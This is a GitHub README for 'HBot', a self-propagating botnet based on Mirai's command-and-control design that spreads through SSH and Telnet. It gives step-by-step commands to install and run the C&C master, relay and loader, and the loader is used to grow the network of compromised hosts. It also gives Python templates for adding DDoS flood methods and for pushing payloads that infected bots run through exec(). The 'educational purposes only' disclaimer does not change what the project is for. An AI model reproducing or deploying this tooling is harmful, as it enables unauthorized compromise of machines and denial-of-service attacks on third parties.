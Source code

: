 <h1 align="center">HBot</h1>

<p align='center'>
    <b>Self spreading Botnet based on Mirai C&C Arch, spreading through SSH and Telnet protocol.<br>Modern script fullly written in python3.</b><br>
    <br>
    <img src='https://media.discordapp.net/attachments/883871285808099329/884117319448682566/unknown.png'>
</p>

----

<br><br>

> # Warning.

* ***This project was made for educational purposes only! I take no responsibility for anything you do with this program.***
* ***If you have any suggestions, problems, open a problem (if it is an error, you must be sure to look if you can solve it with [Google](https://giybf.com)!)***

<br>

> # Requirements.

* A **Brain**, *yes skiddie, you need to use your brain, but d'ont worry because [Google](https://giybf.com) is your best friend !*
* A [MongoDB](https://mongodb.com) account, you must create an **cluster** with **database**, show [tutorial](https://docs.atlas.mongodb.com/getting-started/).
* A [Ngrok](https://ngrok.com) account, (save your **api-key**)
* __3__ Open port. Default: **8080**, **1337**, **667**
* VPS with __Debian__ based distribution.
* Time..

<br>

> # How to setup.

* *Change the permissions of the scripts with the chmod command.*
```sh
chmod +x ./script/*.sh
```

* *Run installation script.*
```sh
./Install.sh
```

* *Start C&C Master server.*
```sh
./RunMaster.sh
```

* *Start Relay server.*
* **Note**: If you have more than one VPS, you can run relay on other server.
```sh
./RunMaster.sh
```

* *When you have enough new bots, you can expand your network by starting the loader.*
```sh
./Loader.sh
```

<br>

> # Custom payload.

***If you whant to share your methods, just create pull requests <3***

1. Create your method with the template (*#1*)
2. You need to add your method in class `Zombie` (**cnc.py** / *#2*)
3. If you whant to add module (no pypi) you need to follow *#3* in **zombie.py**


- #1:
```py
import socket, threading, time

__THREAD_NUMBER__ = 500

def method_name(ip: str, port: str, timeout: str):
    def flood(ip: str, port: int, timeout: int):
        start_time = int(time.time())

        while int(time.time()) - start_time < timeout:
            # write method code here
            # Exemple: https://github.com/Its-Vichy/HBot/blob/main/src/payload/http_flood.py

    for _ in range(int(__THREAD_NUMBER__)):
        threading.Thread(target= flood, args=(ip, int(port), int(timeout))).start()

method_name('!ip!', '!port!', '!time!')
```

- #2:
```py
def ddos_payload(self, ip: str, port: str, timeout: str, type: str):
    if type == 'http':
        payload = self.parse_method('./payload/http_flood.py', ip, port, timeout)
    
    if type == 'your method name without space lmao':
        payload = self.parse_method('./payload/your_method_file.py', ip, port, timeout)
        
    self.send(f'run|{payload}')
```
 
 - #3
 ```py
 # Just look for this line
 # add: 'module_name': module_name
 # Ex: 'random': random
 threading.Thread(target= exec, args=(payload, {'threading': threading, 'socket': socket, 'time': time, 'module_name': module_name})).start()
 ```
 
<br>

> # How is working.

* **Loader**: soon..
* **Relay**: soon..
* **C&C**: soon..

<br>

> # Support me.

* ⚠️ If this repository was empty, its because the project stay in **developpement**.
* Thanks for looking at this repository, if you like to press the ⭐ button!
* Made with 💖 by [Vichy](https://github.com/Its-Vichy).
* RCΛ Love u.

<p align="center"> 
    <b>Informations</b><br>
    <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/Its-Vichy/HBot?style=social">
    <img alt="GitHub top language" src="https://img.shields.io/github/languages/top/Its-Vichy/HBot">
    <img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/Its-Vichy/HBot">
    <img alt="GitHub" src="https://img.shields.io/github/license/Its-Vichy/HBot">
    <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/Its-Vichy/HBot?style=social">
</p>
